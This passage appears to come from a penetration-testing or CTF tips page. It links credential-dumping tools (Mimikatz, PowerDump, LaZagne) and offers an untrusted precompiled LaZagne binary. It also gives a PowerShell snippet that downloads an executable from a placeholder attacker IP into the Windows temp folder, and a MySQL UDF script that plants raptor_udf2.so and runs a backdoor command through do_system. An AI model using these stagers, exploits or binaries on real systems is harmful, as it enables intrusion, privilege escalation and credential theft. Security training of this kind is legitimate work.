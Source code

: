 [PowerDump](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1) [Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

### 5. Want to run LaZagne on 32bits?

[LaZagne](https://github.com/AlessandroZ/LaZagne)

I compiled it for you: https://github.com/therealunicornsecurity/ctf_data/blob/main/laz32.exe

### 6. Want to download stuff, but there is only powershell 2.0?

```
$url = "http://IP/file.exe" 
$path = "C:\WINDOWS\TEMP\file.exe" 
# param([string]$url, [string]$path) 

if(!(Split-Path -parent $path) -or !(Test-Path -pathType Container (Split-Path -parent $path))) { 
$targetFile = Join-Path $pwd (Split-Path -leaf $path) 
} 

(New-Object Net.WebClient).DownloadFile($url, $path) 
$path
```

### 7. Want to list open ports on Windows?

```
# TCP
Get-NetTCPConnection -State Listen| select LocalAddress,LocalPort,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}}
# UDP
Get-NetUDPEndpoint | select LocalAddress,LocalPort,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}} 
```

### 8. Want to run IDA Free on a 32 bits Windows machine?

https://www.scummvm.org/news/20180331/

### 9. Want to exploit a privileged MySQL process?

I won’t explain it better than what’s been done here:

https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf

But I can automate it:

```
# exploit.sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('<run backdoor>');
```
